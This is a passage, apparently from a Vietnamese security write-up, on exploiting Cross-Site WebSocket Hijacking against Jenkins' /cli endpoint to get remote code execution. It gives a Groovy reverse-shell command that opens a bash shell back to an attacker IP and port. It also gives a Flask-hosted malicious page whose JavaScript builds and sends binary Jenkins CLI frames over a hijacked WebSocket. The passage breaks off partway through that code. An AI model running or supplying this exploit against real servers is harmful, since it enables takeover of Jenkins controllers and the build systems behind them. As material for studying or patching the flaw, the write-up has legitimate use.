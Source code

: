 - Mặt khác, giao diện CLI của Jenkins cung cấp nhiều command (list-jobs, build, get-job, install-plugin, v.v.) — một số lệnh đọc, một số mutate, và một vài lệnh cho phép chạy _Groovy (groovy, groovysh)_ nếu user có quyền tương ứng (giả sử ở đây là tài khoản admin).

- Do đó mà ta có thể lợi dụng lỗ hổng CSWSH trên endpoint `/cli` để gửi request WS, có thể gửi lệnh CLI kiểu _groovy_ và chạy code trong JVM giống như Script Console &rarr; Đạt được RCE trên controller (Jenkins server).

- Để exploit và đạt được RCE ta cần tạo và gửi được lệnh CLI Groovy sau tới được server Jenkins:

  ```bash
  ['bash', '-c', 'bash -i >& /dev/tcp/<our_ip>/<port_num_listener> 0>&1'].execute()
  ```

  &rarr; Lệnh nêu trên là **reverse shell**: nó nối stdin/stdout/stderr shell qua socket TCP tới máy tấn công của ta → interactive groovysh remote shell.

- Tương tự tạo một trang web độc hại với mã JS được sửa đổi so với trước như sau:

  ```html
  from flask import Flask, render_template_string

  app = Flask(__name__)
  
  @app.route('/')
  def index():
      # Define the HTML page with embedded JavaScript
      html_content = """
      <!DOCTYPE html>
      <html lang="en">
      <head>
          <meta charset="UTF-8">
          <meta name="viewport" content="width=device-width, initial-scale=1.0">
          <title>WebSocket Test</title>
          <script>
              // Set the WebSocket URL and origin
              const url = "ws://localhost:8080/cli/ws"; 
              const originHeader = "http://localhost:8080"; 
  
              const ws1 = new WebSocket(url);
              
              ws1.binaryType = 'arraybuffer';
              
              ws1.onopen = function() {
                  console.log("First WebSocket Connected");
  
                  const command = new TextEncoder().encode("who-am-i");
                  console.log(command);
  
                  // Define the start and end frames
                  const start = new Uint8Array([0x00, 0x00, 0x08]);
                  const end = new Uint8Array([0x02, 0x00, 0x05, 0x55, 0x54, 0x46, 0x2d, 0x38, 0x01, 0x00, 0x05, 0x65, 0x6e, 0x5f, 0x55, 0x53]);
  
                  // Combine the frames
                  const commandFrame = new Uint8Array(start.length + command.length + end.length);
                  commandFrame.set(start);
                  commandFrame.set(command, start.length);
                  commandFrame.set(end, start.length + command.length);
  
                  // Send the frames
                  ws1.send(commandFrame);
                  console.log("Command sent (ws1)");
  
                  ws1.send(new Uint8Array([0x03]));
                  console.log("Start signal sent (ws1)");
  		
  ```